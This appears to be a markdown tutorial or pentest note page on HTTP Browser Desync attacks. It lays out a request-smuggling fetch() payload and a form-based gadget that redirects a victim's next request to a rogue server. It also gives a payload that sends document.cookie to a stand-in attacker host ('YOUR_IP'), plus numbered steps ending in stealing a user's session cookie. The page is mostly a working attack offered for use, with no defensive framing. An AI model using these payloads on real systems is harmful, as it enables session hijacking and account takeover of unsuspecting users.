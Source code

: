 # Browser Desync

## HTTP Browser Desync Attack

#### In a Browser Desync attack, the attacker aims to take control of a victim's account by exploiting vulnerabilities in a web application's user connection system.

#### This attack occurs in two steps:

**1) The initial request, appearing legitimate, is intended to disrupt the user request queue by introducing an arbitrary request.**

**2) Once the connection pool is compromised, the very next valid request will be replaced by the arbitrary request initiated in the previous step.**

#### Straightforward payload example:

fetch('http://MACHINE\_IP:5000/', { method: 'POST', body: 'GET /redirect HTTP/1.1\r\nFoo: x', mode: 'cors',})

#### Write this JavaScript Payload in your browser command line that you can write JS

#### Command breakdown:

**1) http://MACHINE\_IP = This is the URL to which the HTTP request is made for the vulnerable server. In this case, it's the registration endpoint on the local server.**

**2) { method: 'POST' } = The method parameter specifies the HTTP method for the request. Here, it's set to 'POST'.**

**3) { body: 'GET /redirect HTTP/1.1\r\nFoo: x' } = In the body, there is the second request that is going to be injected into the queue.**

**4) { mode: 'cors' } = This flag triggers an error when visiting the 404 web page and avoids following the redirect.**

## Browser Desync exploit chaining XSS

#### One potential attack vector involves replacing the following request with an arbitrary JavaScript file to execute custom code. However, this strategy necessitates the presence of an arbitrary file upload feature on the website.

#### Instead, we can use a rogue server to deliver an XSS attack to steal the cookie from the victim.

#### We can use the following gadget and deliver it to abuse any component of the web application that allows to reflect text and probably be visited by a user:

<>form id="btn" action="http://MACHINE\_NAME.COM/" method="POST" enctype="text/plain"> <>textarea name="GET http://YOUR\_IP HTTP/1.1 AAA: A">placeholder1 <>button type="submit">placeholder2

<> btn.submit()&#x20;

#### We utilize a form because it inherently supports a keep-alive connection by default. The type is used to avoid the default encoding MIME type since we don't want to encode the second malicious request.

#### Furthermore, the textarea's name attribute will overwrite the bytes of the following request, enabling redirection to our rogue server.

#### To summarize, this gadget operates by using the initial request to position the victim within the connection context of the vulnerable server. The following request retrieves the malicious payload, compromising the victim's session.

#### To do so, we can set up a rogue server by serving a route with a malicious payload like fetch('http://YOUR\_IP/' + document.cookie);

#### Steps to exploit a vulnerable application:

**1) Use straightforward payload to test for browser desync vulnerability**

**2) Type in the form included to the vulnerable part of the application**

**3) sudo python3 smugglingserver.py**

**4) sudo python3 -m http.server 8080**

**5) Send the request**

**6) After one minute or so, we steal the user's session cookie**
